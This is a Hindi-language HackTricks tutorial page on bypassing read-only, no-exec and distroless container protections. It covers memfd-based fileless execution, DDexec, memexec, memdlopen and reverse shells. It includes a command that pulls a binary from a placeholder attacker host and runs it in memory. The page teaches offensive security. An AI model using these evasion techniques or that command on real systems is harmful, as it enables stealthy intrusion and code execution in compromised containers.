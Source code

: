 # FS सुरक्षा को बायपास करें: केवल पढ़ने के लिए / कोई निष्पादन नहीं / डिस्ट्रोलैस

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अ-हैक करने योग्य को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

नीचे दिए गए वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - Linux मेमोरी हेरफेर का अन्वेषण करना**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ स्टेल्थ घुसपैठ - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## केवल पढ़ने के लिए / कोई निष्पादन नहीं परिदृश्य

यह अधिक से अधिक सामान्य होता जा रहा है कि लिनक्स मशीनें **केवल पढ़ने के लिए (ro) फ़ाइल प्रणाली सुरक्षा** के साथ माउंट की जाती हैं, विशेष रूप से कंटेनरों में। इसका कारण यह है कि ro फ़ाइल प्रणाली के साथ कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करने जितना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, भले ही फ़ाइल प्रणाली ro के रूप में माउंट की गई हो, **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह गलत है कि हम डिस्क में कुछ भी नहीं लिख सकते। हालाँकि, यह फ़ोल्डर **कोई निष्पादन सुरक्षा** के साथ माउंट किया जाएगा, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं, तो आप **इसे निष्पादित नहीं कर पाएंगे**।

{% hint style="warning" %}
रेड टीम के दृष्टिकोण से, यह **बाइनरी डाउनलोड और निष्पादित करना जटिल बनाता है** जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे एन्यूमरेटर)।
{% endhint %}

## सबसे आसान बायपास: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को निष्पादित कर सकते हैं** जब तक कि इंटरप्रेटर मशीन के अंदर हो, जैसे कि **शेल स्क्रिप्ट** यदि `sh` मौजूद है या एक **पायथन** **स्क्रिप्ट** यदि `python` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए पर्याप्त नहीं है।

## मेमोरी बायपास

यदि आप एक बाइनरी निष्पादित करना चाहते हैं लेकिन फ़ाइल प्रणाली ऐसा करने की अनुमति नहीं दे रही है, तो ऐसा करने का सबसे अच्छा तरीका है **मेमोरी से इसे निष्पादित करना**, क्योंकि **सुरक्षाएँ वहाँ लागू नहीं होती हैं**।

### FD + exec syscall बायपास

यदि आपके पास मशीन के अंदर कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **Python**, **Perl**, या **Ruby**, तो आप मेमोरी से निष्पादित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर (`create_memfd` syscall) में स्टोर कर सकते हैं, जो उन सुरक्षा द्वारा संरक्षित नहीं होगा और फिर **`exec` syscall** को कॉल कर सकते हैं, जिसमें **fd को निष्पादित करने के लिए फ़ाइल के रूप में इंगित किया गया है**।

इसके लिए आप आसानी से प्रोजेक्ट [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह निर्दिष्ट भाषा में एक स्क्रिप्ट उत्पन्न करेगा जिसमें **बाइनरी संकुचित और b64 एन्कोडेड** होगी और इसे **डिकोड और अनकंप्रेस** करने के लिए निर्देश होंगे एक **fd** में जो `create_memfd` syscall को कॉल करके बनाया गया है और इसे चलाने के लिए **exec** syscall को कॉल किया गया है।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं जैसे PHP या Node में काम नहीं करता क्योंकि उनके पास स्क्रिप्ट से कच्चे syscalls को कॉल करने का कोई डिफ़ॉल्ट तरीका नहीं है, इसलिए `create_memfd` को कॉल करके **मेमोरी fd** बनाना संभव नहीं है।

इसके अलावा, `/dev/shm` में एक फ़ाइल के साथ एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आपको इसे चलाने की अनुमति नहीं होगी क्योंकि **कोई निष्पादन सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको **अपने स्वयं के प्रोसेस की मेमोरी को संशोधित करने** की अनुमति देती है, इसके **`/proc/self/mem`** को ओवरराइट करके।

इसलिए, **प्रक्रिया द्वारा निष्पादित हो रहे असेंबली कोड को नियंत्रित करते हुए**, आप एक **शेलकोड** लिख सकते हैं और प्रक्रिया को **किसी भी मनमाने कोड को निष्पादित करने के लिए "म्यूटेट"** कर सकते हैं।

{% hint style="success" %}
**DDexec / EverythingExec** आपको **मेमोरी** से अपने स्वयं के **शेलकोड** या **किसी भी बाइनरी** को लोड और **निष्पादित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का स्वाभाविक अगला कदम है। यह एक **DDexec शेलकोड डेमोनाइज्ड** है, इसलिए हर बार जब आप **एक अलग बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप बस DDexec तकनीक के माध्यम से memexec शेलकोड चला सकते हैं और फिर **नए बाइनरी लोड और चलाने के लिए इस डेमोन के साथ संवाद कर सकते हैं**।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) पर **memexec का उपयोग करके PHP रिवर्स शेल से बाइनरी निष्पादित करने** का एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक **बाइनरी को लोड करने का एक आसान तरीका** प्रदान करती है ताकि बाद में उन्हें निष्पादित किया जा सके। यह निर्भरताओं के साथ बाइनरी लोड करने की अनुमति भी दे सकती है।

## Distroless Bypass

### What is distroless

Distroless कंटेनर केवल **विशिष्ट एप्लिकेशन या सेवा को चलाने के लिए आवश्यक न्यूनतम घटक** होते हैं, जैसे कि पुस्तकालय और रनटाइम निर्भरताएँ, लेकिन पैकेज प्रबंधक, शेल, या सिस्टम उपयोगिताओं जैसे बड़े घटकों को बाहर करते हैं।

Distroless कंटेनरों का लक्ष्य **अनावश्यक घटकों को समाप्त करके कंटेनरों के हमले की सतह को कम करना** और उन कमजोरियों की संख्या को कम करना है जिन्हें शोषित किया जा सकता है।

### Reverse Shell

एक distroless कंटेनर में आप **`sh` या `bash`** भी नहीं पाएंगे ताकि एक नियमित शेल प्राप्त किया जा सके। आप बाइनरी जैसे `ls`, `whoami`, `id`... भी नहीं पाएंगे... जो कुछ भी आप आमतौर पर एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शेल** प्राप्त करने या **सिस्टम की गणना** करने में सक्षम **नहीं होंगे** जैसे आप आमतौर पर करते हैं।
{% endhint %}

हालांकि, यदि समझौता किया गया कंटेनर उदाहरण के लिए एक फ्लास्क वेब चला रहा है, तो फिर पायथन स्थापित है, और इसलिए आप एक **Python रिवर्स शेल** प्राप्त कर सकते हैं। यदि यह नोड चला रहा है, तो आप एक नोड रिव शेल प्राप्त कर सकते हैं, और अधिकांश **स्क्रिप्टिंग भाषा** के साथ भी यही है।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **सिस्टम की गणना** कर सकते हैं भाषा की क्षमताओं का उपयोग करके।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा नहीं है तो आप अपने रिवर्स शेल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी लिख सकते हैं** और **उन्हें निष्पादित** कर सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा आमतौर पर मौजूद होंगी, लेकिन आप **पिछली मेमोरी निष्पादन तकनीकों का उपयोग करके उन्हें बायपास कर सकते हैं**।
{% endhint %}

आप [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) पर **कुछ RCE कमजोरियों का शोषण करने** के उदाहरण पा सकते हैं ताकि स्क्रिप्टिंग भाषाओं के **रिवर्स शेल** प्राप्त कर सकें और मेमोरी से बाइनरी निष्पादित कर सकें।

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अडिग को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके।

</details>
{% endhint %}
